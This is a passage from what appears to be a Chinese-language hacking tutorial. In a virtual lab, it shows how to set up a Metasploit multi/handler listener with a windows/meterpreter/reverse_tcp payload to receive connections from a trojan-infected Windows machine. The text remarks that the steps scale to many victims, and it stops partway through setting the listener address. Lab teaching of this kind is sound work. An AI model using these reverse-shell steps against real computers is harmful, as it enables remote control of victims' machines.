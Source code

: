 ![f06003](img/f06003.png)

图 6-3：感谢 Kali 的 Apache 网络服务器，我们的木马恶意软件现在可以通过（虚拟）网络访问！

### 监听木马回家的连接

现在我们需要准备 Metasploit，以便接收来自感染的 Windows 机器的传入连接（我们有时称之为*回家*）。一个传入连接将让我们发送恶意命令来远程控制一台机器。通常，攻击者会向成千上万的潜在受害者发送病毒邮件附件，等待看看哪些人打开附件并感染。在我们的案例中，我们只感染一个 Windows 虚拟机。然而，按照这些步骤，我们也能轻松地接收多个感染计算机的连接来控制它们。

1.  在 `msf6` `>` 提示符下输入此命令，告诉 Metasploit 处理或接受来自感染计算机的多个传入连接：

    ```
    msf6 > `use exploit/multi/handler`
    ```

    msfconsole 提示符将发生变化，以告诉我们 *multi/handler* 漏洞利用已经激活。

1.  现在告诉 Metasploit 木马的*有效载荷*——也就是我们传送的恶意程序——是一个 Meterpreter shell：

    ```
    msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`
    ```

    msfconsole 会响应 `PAYLOAD` `=>` `windows/meterpreter/reverse_tcp`，表示我们已选择 Meterpreter 有效载荷。

1.  输入你的 Kali 虚拟机的 IP 地址，以指示连接将要到达的本地主机（记得填写最后一个数字）：

